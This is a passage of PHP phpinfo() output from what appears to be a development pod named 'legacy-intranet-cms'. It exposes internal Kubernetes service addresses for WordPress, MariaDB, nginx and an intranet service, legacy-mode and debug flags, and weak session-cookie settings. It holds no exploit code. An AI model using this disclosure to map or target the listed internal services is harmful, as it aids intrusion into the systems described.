<tr><td class="e">HTTP2 </td><td class="v">Yes </td></tr>
<tr><td class="e">GSSAPI </td><td class="v">No </td></tr>
<tr><td class="e">KERBEROS5 </td><td class="v">No </td></tr>
<tr><td class="e">UNIX_SOCKETS </td><td class="v">Yes </td></tr>
<tr><td class="e">PSL </td><td class="v">No </td></tr>
<tr><td class="e">HTTPS_PROXY </td><td class="v">Yes </td></tr>
<tr><td class="e">MULTI_SSL </td><td class="v">No </td></tr>
<tr><td class="e">BROTLI </td><td class="v">Yes </td></tr>
<tr><td class="e">ALTSVC </td><td class="v">Yes </td></tr>
<tr><td class="e">HTTP3 </td><td class="v">No </td></tr>
<tr><td class="e">UNICODE </td><td class="v">No </td></tr>
<tr><td class="e">ZSTD </td><td class="v">No </td></tr>
<tr><td class="e">HSTS </td><td class="v">Yes </td></tr>
<tr><td class="e">GSASL </td><td class="v">No </td></tr>
<tr><td class="e">Protocols </td><td class="v">dict, file, ftp, ftps, gopher, gophers, http, https, imap, imaps, mqtt, pop3, pop3s, rtsp, smb, smbs, smtp, smtps, telnet, tftp, ws, wss </td></tr>
<tr><td class="e">Host </td><td class="v">x86_64-alpine-linux-musl </td></tr>
<tr><td class="e">SSL Version </td><td class="v">OpenSSL/3.1.4 </td></tr>
<tr><td class="e">ZLib Version </td><td class="v">1.3.1 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">curl.cainfo</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_date" href="#module_date">date</a></h2>
<table>
<tr><td class="e">date/time support </td><td class="v">enabled </td></tr>
<tr><td class="e">timelib version </td><td class="v">2022.10 </td></tr>
<tr><td class="e">&quot;Olson&quot; Timezone Database Version </td><td class="v">2023.4 </td></tr>
<tr><td class="e">Timezone Database </td><td class="v">internal </td></tr>
<tr><td class="e">Default timezone </td><td class="v">UTC </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">date.default_latitude</td><td class="v">31.7667</td><td class="v">31.7667</td></tr>
<tr><td class="e">date.default_longitude</td><td class="v">35.2333</td><td class="v">35.2333</td></tr>
<tr><td class="e">date.sunrise_zenith</td><td class="v">90.833333</td><td class="v">90.833333</td></tr>
<tr><td class="e">date.sunset_zenith</td><td class="v">90.833333</td><td class="v">90.833333</td></tr>
<tr><td class="e">date.timezone</td><td class="v">UTC</td><td class="v">UTC</td></tr>
</table>
<h2><a name="module_dom" href="#module_dom">dom</a></h2>
<table>
<tr><td class="e">DOM/XML </td><td class="v">enabled </td></tr>
<tr><td class="e">DOM/XML API Version </td><td class="v">20031129 </td></tr>
<tr><td class="e">libxml Version </td><td class="v">2.11.7 </td></tr>
<tr><td class="e">HTML Support </td><td class="v">enabled </td></tr>
<tr><td class="e">XPath Support </td><td class="v">enabled </td></tr>
<tr><td class="e">XPointer Support </td><td class="v">enabled </td></tr>
<tr><td class="e">Schema Support </td><td class="v">enabled </td></tr>
<tr><td class="e">RelaxNG Support </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_fileinfo" href="#module_fileinfo">fileinfo</a></h2>
<table>
<tr><td class="e">fileinfo support </td><td class="v">enabled </td></tr>
<tr><td class="e">libmagic </td><td class="v">543 </td></tr>
</table>
<h2><a name="module_filter" href="#module_filter">filter</a></h2>
<table>
<tr><td class="e">Input Validation and Filtering </td><td class="v">enabled </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">filter.default</td><td class="v">unsafe_raw</td><td class="v">unsafe_raw</td></tr>
<tr><td class="e">filter.default_flags</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_hash" href="#module_hash">hash</a></h2>
<table>
<tr><td class="e">hash support </td><td class="v">enabled </td></tr>
<tr><td class="e">Hashing Engines </td><td class="v">md2 md4 md5 sha1 sha224 sha256 sha384 sha512/224 sha512/256 sha512 sha3-224 sha3-256 sha3-384 sha3-512 ripemd128 ripemd160 ripemd256 ripemd320 whirlpool tiger128,3 tiger160,3 tiger192,3 tiger128,4 tiger160,4 tiger192,4 snefru snefru256 gost gost-crypto adler32 crc32 crc32b crc32c fnv132 fnv1a32 fnv164 fnv1a64 joaat murmur3a murmur3c murmur3f xxh32 xxh64 xxh3 xxh128 haval128,3 haval160,3 haval192,3 haval224,3 haval256,3 haval128,4 haval160,4 haval192,4 haval224,4 haval256,4 haval128,5 haval160,5 haval192,5 haval224,5 haval256,5  </td></tr>
</table>
<table>
<tr><td class="e">MHASH support </td><td class="v">Enabled </td></tr>
<tr><td class="e">MHASH API Version </td><td class="v">Emulated Support </td></tr>
</table>
<h2><a name="module_iconv" href="#module_iconv">iconv</a></h2>
<table>
<tr><td class="e">iconv support </td><td class="v">enabled </td></tr>
<tr><td class="e">iconv implementation </td><td class="v">libiconv </td></tr>
<tr><td class="e">iconv library version </td><td class="v">1.17 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">iconv.input_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">iconv.internal_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">iconv.output_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_json" href="#module_json">json</a></h2>
<table>
<tr><td class="e">json support </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_libxml" href="#module_libxml">libxml</a></h2>
<table>
<tr><td class="e">libXML support </td><td class="v">active </td></tr>
<tr><td class="e">libXML Compiled Version </td><td class="v">2.11.7 </td></tr>
<tr><td class="e">libXML Loaded Version </td><td class="v">21107 </td></tr>
<tr><td class="e">libXML streams </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_mbstring" href="#module_mbstring">mbstring</a></h2>
<table>
<tr><td class="e">Multibyte Support </td><td class="v">enabled </td></tr>
<tr><td class="e">Multibyte string engine </td><td class="v">libmbfl </td></tr>
<tr><td class="e">HTTP input encoding translation </td><td class="v">disabled </td></tr>
<tr><td class="e">libmbfl version </td><td class="v">1.3.2 </td></tr>
</table>
<table>
<tr class="h"><th>mbstring extension makes use of "streamable kanji code filter and converter", which is distributed under the GNU Lesser General Public License version 2.1.</th></tr>
</table>
<table>
<tr><td class="e">Multibyte (japanese) regex support </td><td class="v">enabled </td></tr>
<tr><td class="e">Multibyte regex (oniguruma) version </td><td class="v">6.9.9 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">mbstring.detect_order</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">mbstring.encoding_translation</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">mbstring.http_input</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">mbstring.http_output</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">mbstring.http_output_conv_mimetypes</td><td class="v">^(text/|application/xhtml\+xml)</td><td class="v">^(text/|application/xhtml\+xml)</td></tr>
<tr><td class="e">mbstring.internal_encoding</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">mbstring.language</td><td class="v">neutral</td><td class="v">neutral</td></tr>
<tr><td class="e">mbstring.regex_retry_limit</td><td class="v">1000000</td><td class="v">1000000</td></tr>
<tr><td class="e">mbstring.regex_stack_limit</td><td class="v">100000</td><td class="v">100000</td></tr>
<tr><td class="e">mbstring.strict_detection</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">mbstring.substitute_character</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_mysqlnd" href="#module_mysqlnd">mysqlnd</a></h2>
<table>
<tr><td class="e">mysqlnd </td><td class="v">enabled </td></tr>
<tr><td class="e">Version </td><td class="v">mysqlnd 8.3.3 </td></tr>
<tr><td class="e">Compression </td><td class="v">supported </td></tr>
<tr><td class="e">core SSL </td><td class="v">supported </td></tr>
<tr><td class="e">extended SSL </td><td class="v">supported </td></tr>
<tr><td class="e">Command buffer size </td><td class="v">4096 </td></tr>
<tr><td class="e">Read buffer size </td><td class="v">32768 </td></tr>
<tr><td class="e">Read timeout </td><td class="v">86400 </td></tr>
<tr><td class="e">Collecting statistics </td><td class="v">Yes </td></tr>
<tr><td class="e">Collecting memory statistics </td><td class="v">No </td></tr>
<tr><td class="e">Tracing </td><td class="v">n/a </td></tr>
<tr><td class="e">Loaded plugins </td><td class="v">mysqlnd,debug_trace,auth_plugin_mysql_native_password,auth_plugin_mysql_clear_password,auth_plugin_caching_sha2_password,auth_plugin_sha256_password </td></tr>
<tr><td class="e">API Extensions </td><td class="v"><i>no value</i> </td></tr>
</table>
<h2><a name="module_openssl" href="#module_openssl">openssl</a></h2>
<table>
<tr><td class="e">OpenSSL support </td><td class="v">enabled </td></tr>
<tr><td class="e">OpenSSL Library Version </td><td class="v">OpenSSL 3.1.4 24 Oct 2023 </td></tr>
<tr><td class="e">OpenSSL Header Version </td><td class="v">OpenSSL 3.1.4 24 Oct 2023 </td></tr>
<tr><td class="e">Openssl default config </td><td class="v">/etc/ssl/openssl.cnf </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">openssl.cafile</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">openssl.capath</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_pcre" href="#module_pcre">pcre</a></h2>
<table>
<tr><td class="e">PCRE (Perl Compatible Regular Expressions) Support </td><td class="v">enabled </td></tr>
<tr><td class="e">PCRE Library Version </td><td class="v">10.42 2022-12-12 </td></tr>
<tr><td class="e">PCRE Unicode Version </td><td class="v">14.0.0 </td></tr>
<tr><td class="e">PCRE JIT Support </td><td class="v">enabled </td></tr>
<tr><td class="e">PCRE JIT Target </td><td class="v">x86 64bit (little endian + unaligned) </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">pcre.backtrack_limit</td><td class="v">1000000</td><td class="v">1000000</td></tr>
<tr><td class="e">pcre.jit</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">pcre.recursion_limit</td><td class="v">100000</td><td class="v">100000</td></tr>
</table>
<h2><a name="module_pdo" href="#module_pdo">PDO</a></h2>
<table>
<tr><td class="e">PDO support </td><td class="v">enabled </td></tr>
<tr><td class="e">PDO drivers </td><td class="v">sqlite </td></tr>
</table>
<h2><a name="module_pdo_sqlite" href="#module_pdo_sqlite">pdo_sqlite</a></h2>
<table>
<tr><td class="e">PDO Driver for SQLite 3.x </td><td class="v">enabled </td></tr>
<tr><td class="e">SQLite Library </td><td class="v">3.44.2 </td></tr>
</table>
<h2><a name="module_phar" href="#module_phar">Phar</a></h2>
<table>
<tr><td class="e">Phar: PHP Archive support </td><td class="v">enabled </td></tr>
<tr><td class="e">Phar API version </td><td class="v">1.1.1 </td></tr>
<tr><td class="e">Phar-based phar archives </td><td class="v">enabled </td></tr>
<tr><td class="e">Tar-based phar archives </td><td class="v">enabled </td></tr>
<tr><td class="e">ZIP-based phar archives </td><td class="v">enabled </td></tr>
<tr><td class="e">gzip compression </td><td class="v">enabled </td></tr>
<tr><td class="e">bzip2 compression </td><td class="v">disabled (install ext/bz2) </td></tr>
<tr><td class="e">Native OpenSSL support </td><td class="v">enabled </td></tr>
</table>
<table>
<tr class="v"><td>
Phar based on pear/PHP_Archive, original concept by Davey Shafik.<br />Phar fully realized by Gregory Beaver and Marcus Boerger.<br />Portions of tar implementation Copyright (c) 2003-2009 Tim Kientzle.</td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">phar.cache_list</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">phar.readonly</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">phar.require_hash</td><td class="v">On</td><td class="v">On</td></tr>
</table>
<h2><a name="module_posix" href="#module_posix">posix</a></h2>
<table>
<tr><td class="e">POSIX support </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_random" href="#module_random">random</a></h2>
<table>
<tr><td class="e">Version </td><td class="v">8.3.3 </td></tr>
</table>
<h2><a name="module_readline" href="#module_readline">readline</a></h2>
<table>
<tr><td class="e">Readline Support </td><td class="v">enabled </td></tr>
<tr><td class="e">Readline library </td><td class="v">8.2 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">cli.pager</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">cli.prompt</td><td class="v">\b \&gt; </td><td class="v">\b \&gt; </td></tr>
</table>
<h2><a name="module_reflection" href="#module_reflection">Reflection</a></h2>
<table>
<tr><td class="e">Reflection </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_session" href="#module_session">session</a></h2>
<table>
<tr><td class="e">Session Support </td><td class="v">enabled </td></tr>
<tr><td class="e">Registered save handlers </td><td class="v">files user  </td></tr>
<tr><td class="e">Registered serializer handlers </td><td class="v">php_serialize php php_binary  </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">session.auto_start</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">session.cache_expire</td><td class="v">180</td><td class="v">180</td></tr>
<tr><td class="e">session.cache_limiter</td><td class="v">nocache</td><td class="v">nocache</td></tr>
<tr><td class="e">session.cookie_domain</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">session.cookie_httponly</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">session.cookie_lifetime</td><td class="v">0</td><td class="v">0</td></tr>
<tr><td class="e">session.cookie_path</td><td class="v">/</td><td class="v">/</td></tr>
<tr><td class="e">session.cookie_samesite</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">session.cookie_secure</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">session.gc_divisor</td><td class="v">100</td><td class="v">100</td></tr>
<tr><td class="e">session.gc_maxlifetime</td><td class="v">1440</td><td class="v">1440</td></tr>
<tr><td class="e">session.gc_probability</td><td class="v">1</td><td class="v">1</td></tr>
<tr><td class="e">session.lazy_write</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">session.name</td><td class="v">PHPSESSID</td><td class="v">PHPSESSID</td></tr>
<tr><td class="e">session.referer_check</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">session.save_handler</td><td class="v">files</td><td class="v">files</td></tr>
<tr><td class="e">session.save_path</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">session.serialize_handler</td><td class="v">php</td><td class="v">php</td></tr>
<tr><td class="e">session.sid_bits_per_character</td><td class="v">4</td><td class="v">4</td></tr>
<tr><td class="e">session.sid_length</td><td class="v">32</td><td class="v">32</td></tr>
<tr><td class="e">session.upload_progress.cleanup</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">session.upload_progress.enabled</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">session.upload_progress.freq</td><td class="v">1%</td><td class="v">1%</td></tr>
<tr><td class="e">session.upload_progress.min_freq</td><td class="v">1</td><td class="v">1</td></tr>
<tr><td class="e">session.upload_progress.name</td><td class="v">PHP_SESSION_UPLOAD_PROGRESS</td><td class="v">PHP_SESSION_UPLOAD_PROGRESS</td></tr>
<tr><td class="e">session.upload_progress.prefix</td><td class="v">upload_progress_</td><td class="v">upload_progress_</td></tr>
<tr><td class="e">session.use_cookies</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">session.use_only_cookies</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">session.use_strict_mode</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">session.use_trans_sid</td><td class="v">Off</td><td class="v">Off</td></tr>
</table>
<h2><a name="module_simplexml" href="#module_simplexml">SimpleXML</a></h2>
<table>
<tr><td class="e">SimpleXML support </td><td class="v">enabled </td></tr>
<tr><td class="e">Schema support </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_sodium" href="#module_sodium">sodium</a></h2>
<table>
<tr><td class="e">sodium support </td><td class="v">enabled </td></tr>
<tr><td class="e">libsodium headers version </td><td class="v">1.0.19 </td></tr>
<tr><td class="e">libsodium library version </td><td class="v">1.0.19 </td></tr>
</table>
<h2><a name="module_spl" href="#module_spl">SPL</a></h2>
<table>
<tr><td class="e">SPL support </td><td class="v">enabled </td></tr>
<tr><td class="e">Interfaces </td><td class="v">OuterIterator, RecursiveIterator, SeekableIterator, SplObserver, SplSubject </td></tr>
<tr><td class="e">Classes </td><td class="v">AppendIterator, ArrayIterator, ArrayObject, BadFunctionCallException, BadMethodCallException, CachingIterator, CallbackFilterIterator, DirectoryIterator, DomainException, EmptyIterator, FilesystemIterator, FilterIterator, GlobIterator, InfiniteIterator, InvalidArgumentException, IteratorIterator, LengthException, LimitIterator, LogicException, MultipleIterator, NoRewindIterator, OutOfBoundsException, OutOfRangeException, OverflowException, ParentIterator, RangeException, RecursiveArrayIterator, RecursiveCachingIterator, RecursiveCallbackFilterIterator, RecursiveDirectoryIterator, RecursiveFilterIterator, RecursiveIteratorIterator, RecursiveRegexIterator, RecursiveTreeIterator, RegexIterator, RuntimeException, SplDoublyLinkedList, SplFileInfo, SplFileObject, SplFixedArray, SplHeap, SplMinHeap, SplMaxHeap, SplObjectStorage, SplPriorityQueue, SplQueue, SplStack, SplTempFileObject, UnderflowException, UnexpectedValueException </td></tr>
</table>
<h2><a name="module_sqlite3" href="#module_sqlite3">sqlite3</a></h2>
<table>
<tr><td class="e">SQLite3 support </td><td class="v">enabled </td></tr>
<tr><td class="e">SQLite Library </td><td class="v">3.44.2 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">sqlite3.defensive</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">sqlite3.extension_dir</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_standard" href="#module_standard">standard</a></h2>
<table>
<tr><td class="e">Dynamic Library Support </td><td class="v">enabled </td></tr>
<tr><td class="e">Path to sendmail </td><td class="v">/usr/sbin/sendmail -t -i </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">assert.active</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">assert.bail</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">assert.callback</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">assert.exception</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">assert.warning</td><td class="v">On</td><td class="v">On</td></tr>
<tr><td class="e">auto_detect_line_endings</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">default_socket_timeout</td><td class="v">60</td><td class="v">60</td></tr>
<tr><td class="e">from</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">session.trans_sid_hosts</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">session.trans_sid_tags</td><td class="v">a=href,area=href,frame=src,form=</td><td class="v">a=href,area=href,frame=src,form=</td></tr>
<tr><td class="e">unserialize_max_depth</td><td class="v">4096</td><td class="v">4096</td></tr>
<tr><td class="e">url_rewriter.hosts</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">url_rewriter.tags</td><td class="v">form=</td><td class="v">form=</td></tr>
<tr><td class="e">user_agent</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2><a name="module_tokenizer" href="#module_tokenizer">tokenizer</a></h2>
<table>
<tr><td class="e">Tokenizer Support </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_xml" href="#module_xml">xml</a></h2>
<table>
<tr><td class="e">XML Support </td><td class="v">active </td></tr>
<tr><td class="e">XML Namespace Support </td><td class="v">active </td></tr>
<tr><td class="e">libxml2 Version </td><td class="v">2.11.7 </td></tr>
</table>
<h2><a name="module_xmlreader" href="#module_xmlreader">xmlreader</a></h2>
<table>
<tr><td class="e">XMLReader </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_xmlwriter" href="#module_xmlwriter">xmlwriter</a></h2>
<table>
<tr><td class="e">XMLWriter </td><td class="v">enabled </td></tr>
</table>
<h2><a name="module_zlib" href="#module_zlib">zlib</a></h2>
<table>
<tr><td class="e">ZLib Support </td><td class="v">enabled </td></tr>
<tr><td class="e">Stream Wrapper </td><td class="v">compress.zlib:// </td></tr>
<tr><td class="e">Stream Filter </td><td class="v">zlib.inflate, zlib.deflate </td></tr>
<tr><td class="e">Compiled Version </td><td class="v">1.3.1 </td></tr>
<tr><td class="e">Linked Version </td><td class="v">1.3.1 </td></tr>
</table>
<table>
<tr class="h"><th>Directive</th><th>Local Value</th><th>Master Value</th></tr>
<tr><td class="e">zlib.output_compression</td><td class="v">Off</td><td class="v">Off</td></tr>
<tr><td class="e">zlib.output_compression_level</td><td class="v">-1</td><td class="v">-1</td></tr>
<tr><td class="e">zlib.output_handler</td><td class="v"><i>no value</i></td><td class="v"><i>no value</i></td></tr>
</table>
<h2>Additional Modules</h2>
<table>
<tr class="h"><th>Module Name</th></tr>
</table>
<h2>Environment</h2>
<table>
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">KUBERNETES_PORT </td><td class="v">tcp://10.43.0.1:443 </td></tr>
<tr><td class="e">KUBERNETES_SERVICE_PORT </td><td class="v">443 </td></tr>
<tr><td class="e">HOSTNAME </td><td class="v">legacy-intranet-cms-6f7bf5db84-gb975 </td></tr>
<tr><td class="e">PHP_INI_DIR </td><td class="v">/usr/local/etc/php </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_SERVICE_PORT </td><td class="v">80 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT </td><td class="v">tcp://10.43.61.204:80 </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_SERVICE_HOST </td><td class="v">10.43.2.241 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_SERVICE_PORT </td><td class="v">80 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_PORT </td><td class="v">tcp://10.43.4.242:80 </td></tr>
<tr><td class="e">SHLVL </td><td class="v">2 </td></tr>
<tr><td class="e">PHP_CGI_VERSION </td><td class="v">8.3.3 </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_PORT_5000_TCP </td><td class="v">tcp://10.43.2.241:5000 </td></tr>
<tr><td class="e">HOME </td><td class="v">/root </td></tr>
<tr><td class="e">PHP_LDFLAGS </td><td class="v">-Wl,-O1 -pie </td></tr>
<tr><td class="e">LEGACY_CGI_ENABLED </td><td class="v">true </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_80_TCP_ADDR </td><td class="v">10.43.61.204 </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_PORT_3306_TCP_ADDR </td><td class="v">10.43.147.82 </td></tr>
<tr><td class="e">PHP_CFLAGS </td><td class="v">-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_PORT_80_TCP_ADDR </td><td class="v">10.43.4.242 </td></tr>
<tr><td class="e">PHP_VERSION </td><td class="v">8.3.3 </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_SERVICE_PORT </td><td class="v">5000 </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_PORT </td><td class="v">tcp://10.43.2.241:5000 </td></tr>
<tr><td class="e">LEGACY_MODE </td><td class="v">enabled </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_PORT_3306_TCP_PORT </td><td class="v">3306 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PORT </td><td class="v">80 </td></tr>
<tr><td class="e">GPG_KEYS </td><td class="v">1198C0117593497A5EC5C199286AF1F9897469DC C28D937575603EB4ABB725861C0779DC5C0A9DE4 AFD8691FDAEDF03BDF6E460563F15A9B715376CA </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_PORT_3306_TCP_PROTO </td><td class="v">tcp </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_SERVICE_HOST </td><td class="v">10.43.147.82 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_PORT_80_TCP_PORT </td><td class="v">80 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_80_TCP_PROTO </td><td class="v">tcp </td></tr>
<tr><td class="e">PHP_CPPFLAGS </td><td class="v">-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 </td></tr>
<tr><td class="e">PHP_ASC_URL </td><td class="v">https://www.php.net/distributions/php-8.3.3.tar.xz.asc </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_SERVICE_PORT_MYSQL </td><td class="v">3306 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_PORT_80_TCP_PROTO </td><td class="v">tcp </td></tr>
<tr><td class="e">PHP_URL </td><td class="v">https://www.php.net/distributions/php-8.3.3.tar.xz </td></tr>
<tr><td class="e">PHP_MAX_EXECUTION_TIME </td><td class="v">120 </td></tr>
<tr><td class="e">KUBERNETES_PORT_443_TCP_ADDR </td><td class="v">10.43.0.1 </td></tr>
<tr><td class="e">PATH </td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_SERVICE_PORT </td><td class="v">3306 </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_PORT </td><td class="v">tcp://10.43.147.82:3306 </td></tr>
<tr><td class="e">BETA_VINO_WP_MARIADB_PORT_3306_TCP </td><td class="v">tcp://10.43.147.82:3306 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_443_TCP_ADDR </td><td class="v">10.43.61.204 </td></tr>
<tr><td class="e">KUBERNETES_PORT_443_TCP_PORT </td><td class="v">443 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_80_TCP </td><td class="v">tcp://10.43.61.204:80 </td></tr>
<tr><td class="e">PHP_MEMORY_LIMIT </td><td class="v">128M </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_PORT_80_TCP </td><td class="v">tcp://10.43.4.242:80 </td></tr>
<tr><td class="e">KUBERNETES_PORT_443_TCP_PROTO </td><td class="v">tcp </td></tr>
<tr><td class="e">CMS_ENVIRONMENT </td><td class="v">development </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PORT </td><td class="v">443 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_443_TCP_PROTO </td><td class="v">tcp </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTP </td><td class="v">80 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_SERVICE_PORT_HTTP </td><td class="v">80 </td></tr>
<tr><td class="e">KUBERNETES_SERVICE_PORT_HTTPS </td><td class="v">443 </td></tr>
<tr><td class="e">KUBERNETES_PORT_443_TCP </td><td class="v">tcp://10.43.0.1:443 </td></tr>
<tr><td class="e">PHPIZE_DEPS </td><td class="v">autoconf 		dpkg-dev dpkg 		file 		g++ 		gcc 		libc-dev 		make 		pkgconf 		re2c </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR </td><td class="v">10.43.2.241 </td></tr>
<tr><td class="e">KUBERNETES_SERVICE_HOST </td><td class="v">10.43.0.1 </td></tr>
<tr><td class="e">PWD </td><td class="v">/ </td></tr>
<tr><td class="e">PHP_SHA256 </td><td class="v">b0a996276fe21fe9ca8f993314c8bc02750f464c7b0343f056fb0894a8dfa9d1 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_SERVICE_PORT_HTTPS </td><td class="v">443 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_PORT_443_TCP </td><td class="v">tcp://10.43.61.204:443 </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT </td><td class="v">5000 </td></tr>
<tr><td class="e">BETA_VINO_WP_WORDPRESS_SERVICE_HOST </td><td class="v">10.43.61.204 </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO </td><td class="v">tcp </td></tr>
<tr><td class="e">LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP </td><td class="v">5000 </td></tr>
<tr><td class="e">WP_NGINX_SERVICE_SERVICE_HOST </td><td class="v">10.43.4.242 </td></tr>
</table>
<h2>PHP Variables</h2>
<table>
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">$_REQUEST['debug']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_GET['debug']</td><td class="v"><i>no value</i></td></tr>
